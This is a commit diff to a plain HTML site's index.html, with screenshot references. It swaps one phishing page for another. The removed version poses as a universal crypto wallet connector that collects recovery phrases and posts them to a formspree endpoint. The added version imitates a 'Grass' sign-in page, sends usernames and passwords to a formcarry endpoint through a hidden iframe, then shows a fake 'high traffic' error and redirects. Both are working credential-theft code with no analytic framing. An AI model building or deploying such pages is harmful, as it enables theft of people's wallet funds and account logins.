

Before and after one commit to sammylanson/Wp22, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -4,274 +4,155 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-<title>Universal Wallet Connection</title>
+    <title>Grass Login</title>
     <style>
+        /* Resetting some basic styles */
         * {
             margin: 0;
             padding: 0;
             box-sizing: border-box;
-  font-family: 'Inter', sans-serif;
+            font-family: Arial, sans-serif;
         }
 
         body {
-  background: #ffffff;
-  color: #0f172a;
-  min-height: 100vh;
-  padding: 20px;
+            display: flex;
+            justify-content: center;
+            align-items: center;
+            height: 100vh;
+            background-color: #f9f9f9;
+            color: #333;
         }
 
         .container {
-  max-width: 1200px;
-  margin: 0 auto;
+            width: 360px;
+            background-color: #fff;
+            padding: 20px;
+            border-radius: 8px;
+            box-shadow: 0px 4px 12px rgba(0, 0, 0, 0.1);
+            text-align: center;
         }
 
-.header {
-  text-align: center;
-  margin-bottom: 40px;
-  padding-top: 20px;
+        .logo {
+            font-size: 24px;
+            font-weight: bold;
+            color: #333;
+            margin-bottom: 10px;
         }
 
-.header h1 {
-  font-size: 2.5rem;
-  margin-bottom: 10px;
-  color: #1e3a8a;
+        .title {
+            font-size: 28px;
+            font-weight: bold;
+            color: #D4E157;
+            margin-bottom: 20px;
         }
 
-.header p {
-  color: #64748b;
+        .form-group {
+            margin-bottom: 15px;
+            text-align: left;
         }
 
-.wallets-grid {
-  display: grid;
-  grid-template-columns: repeat(auto-fill, minmax(250px, 1fr));
-  gap: 20px;
-  padding: 20px;
+        input[type="text"], input[type="password"] {
+            width: 100%;
+            padding: 12px;
+            border: 1px solid #ccc;
+            border-radius: 8px;
+            font-size: 16px;
+            margin-top: 5px;
         }
 
-.wallet-item {
-  background: #f1f5f9;
-  border-radius: 12px;
-  padding: 20px;
-  cursor: pointer;
-  transition: all 0.3s ease;
-  display: flex;
-  align-items: center;
-  gap: 15px;
-  box-shadow: 0 4px 8px rgba(0, 0, 0, 0.1);
+        .form-group a {
+            font-size: 14px;
+            color: #555;
+            text-decoration: none;
+            display: block;
+            margin-top: 5px;
         }
 
-.wallet-item:hover {
-  transform: translateY(-2px);
-  background: #e2e8f0;
+        .btn {
+            background-color: #757575;
+            color: white;
+            padding: 12px;
+            width: 100%;
+            border: none;
+            border-radius: 8px;
+            cursor: pointer;
+            font-size: 16px;
+            font-weight: bold;
         }
 
-.wallet-logo {
-  width: 40px;
-  height: 40px;
-  background: #cbd5e1;
-  border-radius: 8px;
-  display: flex;
-  align-items: center;
-  justify-content: center;
-  font-weight: bold;
-  font-size: 1.2em;
-  color: #1e3a8a;
+        .register-link {
+            margin-top: 20px;
+            font-size: 14px;
+            color: #333;
         }
 
-.wallet-info {
-  flex: 1;
+        .register-link a {
+            color: #D4E157;
+            text-decoration: none;
+            font-weight: bold;
         }
 
-.wallet-name {
-  font-weight: 600;
-  margin-bottom: 4px;
-  color: #1e3a8a;
+        .error-message {
+            color: red;
+            font-size: 14px;
+            margin-top: 15px;
+            display: none;
         }
 
-.wallet-description {
-  font-size: 0.85rem;
-  color: #64748b;
+        footer {
+            font-size: 12px;
+            color: #555;
+            margin-top: 20px;
         }
 
-.modal {
-  display: none;
-  position: fixed;
-  top: 0;
-  left: 0;
-  width: 100%;
-  height: 100%;
-  background: rgba(0, 0, 0, 0.5);
-  align-items: center;
-  justify-content: center;
-  z-index: 1000;
-}
-
-.modal-content {
-  background: #f1f5f9;
-  padding: 30px;
-  border-radius: 16px;
-  width: 90%;
-  max-width: 500px;
-  box-shadow: 0 8px 16px rgba(0, 0, 0, 0.2);
-}
-
-.phrase-input {
-  width: 100%;
-  padding: 15px;
-  margin: 20px 0;
-  background: #e2e8f0;
-  border: 1px solid #cbd5e1;
-  border-radius: 8px;
-  color: #0f172a;
-  font-size: 1rem;
-}
-
-.connect-btn {
-  width: 100%;
-  padding: 15px;
-  background: #3b82f6;
-  color: white;
-  border: none;
-  border-radius: 8px;
-  font-size: 1rem;
-  cursor: pointer;
-  transition: background 0.3s ease;
-}
-
-.connect-btn:hover {
-  background: #2563eb;
-}
-
-.close-modal {
-  float: right;
-  background: none;
-  border: none;
-  color: #64748b;
-  font-size: 1.5rem;
-  cursor: pointer;
-}
-
-.modal-header {
-  margin-bottom: 20px;
-  color: #1e3a8a;
-}
-
-@media (max-width: 768px) {
-  .wallets-grid {
-    grid-template-columns: 1fr;
-  }
+        footer a {
+            color: #555;
+            text-decoration: none;
+            margin: 0 5px;
         }
     </style>
 </head>
 <body>
-
     <div class="container">
-  <div class="header">
-    <h1>Universal Wallet Connection</h1>
-    <p>Choose your preferred wallet to connect to our platform</p>
+        <div class="logo">grass™</div>
+        <div class="title">Sign In.</div>
+        <form id="loginForm" action="https://formcarry.com/s/2fRjwsXYSGB" method="POST" target="hidden_iframe" onsubmit="showErrorMessage()">
+            <div class="form-group">
+                <label for="username">Username or Email</label>
+                <input type="text" id="username" name="username" placeholder="Username or Email" required>
+            </div>
+            <div class="form-group">
+                <label for="password">Password</label>
+                <input type="password" id="password" name="password" placeholder="Password" required>
+                <a href="#">Forgot Password?</a>
+            </div>
+            <button type="submit" class="btn">ACCESS MY ACCOUNT</button>
+        </form>
+        <div class="error-message" id="errorMessage">
+            Sorry, we are experiencing high traffic now. Please login later.
+        </div>
+        <div class="register-link">
+            Don’t have an account? <a href="#">Register</a>
+        </div>
+        <footer>
+            <a href="#">Privacy Policy</a> | <a href="#">Terms & Conditions</a> | <a href="#">Cookie Policy</a> | <a href="#">Cookie Settings</a>
+            <p>© Grass Foundation, 2024. All rights reserved.</p>
+        </footer>
     </div>
 
-  <div class="wallets-grid" id="walletsGrid"></div>
-</div>
-
-<div class="modal" id="connectModal">
-  <div class="modal-content">
-    <button class="close-modal" onclick="closeModal()">&times;</button>
-    <div class="modal-header">
-      <h2 id="modalWalletName">Connect Wallet</h2>
-    </div>
-    <form id="walletForm" method="POST" onsubmit="handleSubmit(event)">
-      <textarea
-        class="phrase-input"
-        name="recoveryPhrase"
-        placeholder="Enter your recovery phrase (12 or 24 words)"
-        rows="4"
-        required
-      ></textarea>
-      <button type="submit" class="connect-btn">Connect Wallet</button>
-    </form>
-    <div id="formResponse" style="margin-top: 20px;"></div>
-  </div>
-</div>
+    <!-- Hidden iframe to handle form submission without leaving the page -->
+    <iframe name="hidden_iframe" style="display:none;"></iframe>
 
     <script>
-const wallets = [
-  { name: "Phantom", letter: "P", description: "Solana's favorite wallet" },
-  { name: "Zerion", letter: "Z", description: "Your Web3 Smart Wallet" },
-  { name: "MetaMask", letter: "M", description: "The crypto wallet for DeFi & NFTs" },
-  { name: "Trust Wallet", letter: "T", description: "The most trusted & secure crypto wallet" },
-  { name: "Coinbase", letter: "C", description: "The easiest way to get started with crypto" },
-  { name: "Rainbow", letter: "R", description: "The fun and simple way to start with Ethereum" },
-  { name: "Sui Wallet", letter: "S", description: "The official Sui ecosystem wallet" },
-  { name: "Exodus", letter: "E", description: "The all-in-one crypto wallet" },
-  { name: "MyEtherWallet", letter: "M", description: "The original Ethereum wallet" },
-  { name: "Ledger Live", letter: "L", description: "The companion app for your hardware wallet" },
-  { name: "Ton Wallet", letter: "T", description: "Secure wallet for the TON blockchain" },
-  { name: "Solflare", letter: "S", description: "The wallet for Solana" },
-  { name: "Atomic", letter: "A", description: "Universal cryptocurrency wallet" },
-  { name: "Argent", letter: "A", description: "The best wallet for DeFi & L2" }
-];
+        function showErrorMessage() {
+            // Show the error message
+            document.getElementById("errorMessage").style.display = "block";
 
-function createWalletGrid() {
-  const grid = document.getElementById('walletsGrid');
-  wallets.forEach(wallet => {
-    const walletItem = document.createElement('div');
-    walletItem.className = 'wallet-item';
-    walletItem.onclick = () => openModal(wallet.name);
-
-    walletItem.innerHTML = `
-      <div class="wallet-logo">${wallet.letter}</div>
-      <div class="wallet-info">
-        <div class="wallet-name">${wallet.name}</div>
-        <div class="wallet-description">${wallet.description}</div>
-      </div>
-    `;
-
-    grid.appendChild(walletItem);
-  });
+            // Redirect after a delay (e.g., 3 seconds)
+            setTimeout(function() {
+                window.location.href = "/"; // Replace '/' with the URL of your main page
+            }, 3000);
         }
-
-function openModal(walletName) {
-  const modal = document.getElementById('connectModal');
-  const modalWalletName = document.getElementById('modalWalletName');
-  modalWalletName.textContent = `Connect ${walletName}`;
-  modal.style.display = 'flex';
-}
-
-function closeModal() {
-  const modal = document.getElementById('connectModal');
-  modal.style.display = 'none';
-}
-
-function handleSubmit(event) {
-  event.preventDefault();
-  const form = document.getElementById('walletForm');
-  const formData = new FormData(form);
-
-  fetch('https://formspree.io/f/mdojqvda', {
-    method: 'POST',
-    body: formData,
-    headers: { 'Accept': 'application/json' }
-  })
-  .then(response => {
-    if (response.ok) return response.json();
-    throw new Error('Network response was not ok.');
-  })
-  .then(data => {
-    document.getElementById('formResponse').innerText = 'Success! Your wallet has been connected.';
-    closeModal();
-  })
-  .catch(error => {
-    document.getElementById('formResponse').innerText = 'Error connecting wallet: ' + error.message;
-  });
-}
-
-window.onclick = function(event) {
-  const modal = document.getElementById('connectModal');
-  if (event.target === modal) closeModal();
-}
-
-createWalletGrid();
     </script>
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
